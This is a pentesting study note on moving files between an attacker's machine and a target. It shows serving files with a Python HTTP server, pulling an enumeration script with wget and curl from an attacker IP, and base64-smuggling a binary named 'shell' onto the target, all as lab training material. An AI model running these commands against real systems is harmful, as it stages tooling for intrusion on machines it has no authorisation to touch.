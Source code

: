 # Transferring Files

File transfer is a common practice in the world of pentesting as you will need to send files to the machine you are attacking, as well as importing files from this target.

#### wget

#wget or #cURL are common tools for moving files between a target and the host you are attacking from. We can use our machine as a python server that the target will download malicious files from via cURL or wget.

To change directory and start a python server to begin listening on port 8000:

>cd /tmp
>python3 -m http.server 8000

Now we can download the file onto the target:

>wget \http://10.10.14.1:8000/linenum.sh

#### cURL

Alternatively we can use cURL using -o flag to denote the output file:

>curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

#### SCP

Another means of file transfer is Secure Copy ( #SCP):

>scp linenum.sh user@remotehost:/tmp/linenum.sh

#### Base64

If we are unable to directly transfer files, we can encode the file on our machine before transferring it and decode it on the target machine using base64 encoding.

In the example given, they choose to encode a file named 'shell' with the following command:

>base64 shell -w 0

Now we can take the encoded file name and decode it on the target machine with the following command:

>echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... \<SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

#### Validating Files

We can validate a file format for the file 'shell' with the following command:

>file shell

We can also reveal the md5 hash to ensure that our file was not modified during transfer:

>md5sum shell

This will reveal a hash associated with a file, which we can then compare to the hash of the file on the target machine:

>md5sum shell

If the results are the same for this command on both machines, we have successfully transferred the files.